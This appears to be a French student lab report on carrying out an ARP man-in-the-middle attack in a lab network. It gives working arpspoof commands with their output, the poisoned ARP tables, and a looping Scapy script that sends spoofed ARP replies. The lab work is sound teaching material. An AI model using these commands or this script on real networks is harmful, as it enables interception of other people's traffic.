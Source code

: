     0c:e6:03:92:00:00  10.2.1.11 expires in 79 seconds

## 🌞 Mettre en place un ARP MITM

    debian@debian:~$ sudo apt install dsniff
#
    debian@debian:~$ sudo sysctl -w net.ipv4.ip_forward=1
#
    debian@debian:~$ sudo arpspoof -i ens4 -r -t 10.2.1.10 10.2.1.254
    c:e6:3:92:0:0 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at c:e6:3:92:0:0
    c:e6:3:92:0:0 c:a:72:0:0:1 0806 42: arp reply 10.2.1.10 is-at c:e6:3:92:0:0
    c:e6:3:92:0:0 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at c:e6:3:92:0:0
    c:e6:3:92:0:0 c:a:72:0:0:1 0806 42: arp reply 10.2.1.10 is-at c:e6:3:92:0:0
    
### Table ARP de node1.tp2.efrei :

    PC1> show arp

    0c:e6:03:92:00:00  10.2.1.11 expires in 28 seconds
    0c:e6:03:92:00:00  10.2.1.254 expires in 120 seconds
    
### Table ARP de router.tp2.efrei :

    [rocky@routeurtp2 ~]$ ip neighbor show
    10.2.1.11 dev eth1 lladdr 0c:e6:03:92:00:00 STALE
    192.168.122.1 dev eth0 lladdr 52:54:00:23:04:c2 STALE
    10.2.1.253 dev eth1 lladdr 0c:f8:d7:6a:00:00 STALE
    10.2.1.10 dev eth1 lladdr 0c:e6:03:92:00:00 REACHABLE
    
## 🌞 Capture Wireshark arp_mitm.pcap

La capture est sous le nom : arp_mitm.pcap

## 🌞 Réaliser la même attaque avec Scapy

    from scapy.all import *

    victime = Ether(dst="00:50:79:66:68:00")/ARP (pdst="10.2.1.10", psrc="10.2.1.254")
    routeur = Ether(dst="0c:0a:72:00:00:01")/ARP (pdst="10.2.1.254", psrc="10.2.1.10")

    while True:
    
	    sendp(victime, iface="enp0s3")
	    sendp(routeur, iface="enp0s3")
